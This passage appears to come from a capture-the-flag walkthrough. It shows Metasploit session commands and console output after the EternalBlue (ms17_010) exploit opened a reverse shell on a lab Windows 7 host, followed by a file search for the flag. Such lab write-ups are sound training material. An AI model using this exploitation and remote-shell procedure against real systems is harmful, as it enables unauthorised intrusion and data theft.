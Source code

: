 ```console
    -u, --upgrade <id>                   Upgrade a shell to a meterpreter session on many platforms
    -v, --list-verbose                   List all active sessions in verbose mode
    -x, --list-extended                  Show extended information in the session table

Many options allow specifying session ranges using commas and dashes.
For example:  sessions -s checkvm -i 1,3-5  or  sessions -k 1-2,5,6
```
We can interact with any existing session using the `sessions -i` command followed by the session ID.

```console
msf6 exploit(windows/smb/ms17_010_eternalblue) > sessions

Active sessions
===============

  Id  Name  Type               Information                               Connection
  --  ----  ----               -----------                               ----------
  1         shell x64/windows  Shell Banner: Microsoft Windows [Version  10.13.17.49:4444 -> 10.10.6.163:49174 (10
                                6.1.7601] -----                          .10.6.163)

msf6 exploit(windows/smb/ms17_010_eternalblue) > sessions -i 1
[*] Starting interaction with 1...


Shell Banner:
Microsoft Windows [Version 6.1.7601]
-----
          

C:\Windows\system32>
C:\Windows\system32>search flag.txt
search flag.txt
'search' is not recognized as an internal or external command,
operable program or batch file.

C:\Windows\system32>dir "\*flag.txt*" /s
dir "\*flag.txt*" /s
 Volume in drive C has no label.
 Volume Serial Number is E611-0B66

 Directory of C:\Users\Jon\Documents

07/14/2021  08:39 PM                15 flag.txt
               1 File(s)             15 bytes

^C
Abort session 1? [y/N]  n

Shell Banner:
Microsoft Windows [Version 6.1.7601]
-----
          

     Total Files Listed:
               1 File(s)             15 bytes
               0 Dir(s)  39,937,695,744 bytes free

C:\Windows\system32>dir "\*flag.txt*" /s
dir "\*flag.txt*" /s
 Volume in drive C has no label.
 Volume Serial Number is E611-0B66

```